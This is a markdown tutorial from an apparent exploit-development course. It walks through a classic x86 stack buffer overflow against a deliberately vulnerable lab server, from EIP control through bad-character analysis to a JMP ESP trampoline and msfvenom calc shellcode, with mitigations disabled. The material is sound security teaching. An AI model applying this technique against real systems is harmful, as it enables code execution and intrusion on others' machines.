

# Tutorial — dobetter_x86 (WinDBG + mona3 + Python 3)

You will go from a polite TCP hello to **EIP control** and then **stack shellcode**
via a **JMP ESP** trampoline. Mitigations stay off.

Pedagogy inspired by Justin Steven’s *do stack buffer overflow good*; tooling
and structure modernized for 2026.

## 0. Prep

1. Windows 10/11 lab VM with WinDBG + mona3 ([../../setup/](../../setup/)).
2. Build `bin/dobetter_x86.exe`.
3. Relax Exploit Protection for the image name if needed:
   `Disable-TargetMitigations.ps1 -Name dobetter_x86.exe`
4. Allow TCP **31337** through the guest firewall (or disable firewall in lab).
5. Attacker Python 3 with ability to reach the guest IP.

Set environment for scripts:

```bash
export TARGET_IP=192.168.56.10   # guest
export TARGET_PORT=31337
```

Windows PowerShell:

```powershell
$env:TARGET_IP = "127.0.0.1"
$env:TARGET_PORT = "31337"
```

## 1. Concepts (60-second version)



```text
  high addresses
  +------------------+
  |  args / ...      |
  |  saved RET  <----|---- do_response will RET here
  |  saved EBP       |
  |  response[128]   |  copy writes here, toward higher addresses...
  +------------------+
  low addresses (stack grows down)
```

If `name` is huge, `sprintf` walks past `response` into **saved EBP** and
**saved return address**. When `do_response` returns, CPU jumps to your dword.

## 2. Source review

Open `src/dobetter_x86.c`. Focus on `do_response`:

```c
char response[RESPONSE_SIZE];  /* 128 */
sprintf(response, "Hello %s!!!\n", name);
```

Also note `gadget_jmp_esp` — a deliberate `JMP ESP` for mona to find. Prefer
discovering it with mona rather than pasting the startup hint address.

## 3. Start target + attach

```text
C:\labs\...\bin\dobetter_x86.exe
[+] Listening...
```

WinDBG → Attach to `dobetter_x86.exe` → go (`g`).

```text
!load pykd
as !mona !py -3.9 C:\Tools\mona3\mona.py
!mona config -set workingfolder C:\mona-work\%p
```

## 4. Happy path

```bash
python3 exploits/01_connect.py
```

Expect a banner and `Hello student!!!`.

## 5. Crash

```bash
python3 exploits/02_crash.py
```

WinDBG should break (access violation / unexpected execution). Note `eip` /
exception. Restart process under debugger or re-run the EXE and re-attach.

## 6. Offset to EIP

Create a cyclic pattern:

```text
!mona pattern_create 600
```

Send it with `exploits/03_pattern.py` (reads mona pattern file **or** generates
a local cyclic pattern).

On crash:

```text
r
!mona findmsp
!mona pattern_offset <EIP value>
```

Record **offset** = distance from start of overflow string to SRP overwrite.

Confirm:

```bash
python3 exploits/04_eip_control.py
```

You want `EIP = 0x42424242` (`BBBB`) or whatever marker you chose.

### Expected offset ballpark

With a 128-byte `response` and length-based `Hello` + name + `!!!\n`:

- Short names (`len < 64`) are safe `Hello…` replies; exploits must send **≥ 64** bytes.
- For current MinGW builds, appendix often shows **OFFSET≈148** — regenerate with
  `scripts/extract_lab_meta.py` and **always confirm with mona**.

## 7. Bad characters

Bytes that cannot appear in the payload (truncated or altered):

- `\x0a` — newline ends the line in `handle_connection` before `do_response`
- `\x00` — **allowed** by this lab’s length-based copy (unlike classic `sprintf %s`), but still often bad inside shellcode encoders or other APIs — verify with mona compare
- Other bytes your shellcode encoder or network path dislikes

Generate a bytearray in mona excluding known bad:

```text
!mona bytearray -cpb "\x00\x0a"
```

Send with `exploits/05_badchars.py`, then:

```text
!mona compare -f C:\mona-work\dobetter_x86\bytearray.bin -a <address of buffer>
```

Iterate until clean. Document the final bad list.

## 8. JMP ESP trampoline

```text
!mona jmp -r esp -cpb "\x00\x0a"
```

Pick a gadget **inside the non-ASLR module** (`dobetter_x86.exe`). Follow in
disassembly to confirm `FF E4`.

Payload shape:

```text
[ padding to EIP ][ JMP ESP addr ][ nops / shellcode ]
```

After `RET` to JMP ESP, ESP points at the bytes immediately after the
overwritten return address — ideal home for shellcode when DEP is off.

## 9. Shellcode

On your attacker box (example — adjust bad chars):

```bash
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a' -f python -v shellcode
```

Or use a simple `\xCC` (INT3) run first to confirm redirect:

```python
shellcode = b"\xCC" * 16
```

`exploits/06_shellcode.py` expects you to paste shellcode and the JMP ESP
address from **your** mona output.

## 10. Stabilization tips

- One connection = one line; crash may kill the thread/process depending on state.
- Prefer re-spawning the server cleanly between tests.
- If shellcode runs partially: more NOPs, stack alignment, bad chars, or encoder stub issues.
- DEP still on? Re-check Exploit Protection / `Get-ProcessMitigation`.

## 11. Checkpoint

- [ ] Explain SRP overwrite on paper
- [ ] Reliable EIP marker
- [ ] JMP ESP from mona (not only the startup hint)
- [ ] calc / INT3 / lab shellcode executes

## Next

- [../02-x64-stack-bof/](../02-x64-stack-bof/) for RIP
- [../../curriculum/04-vulnserver.md](../../curriculum/04-vulnserver.md) for multi-bug practice
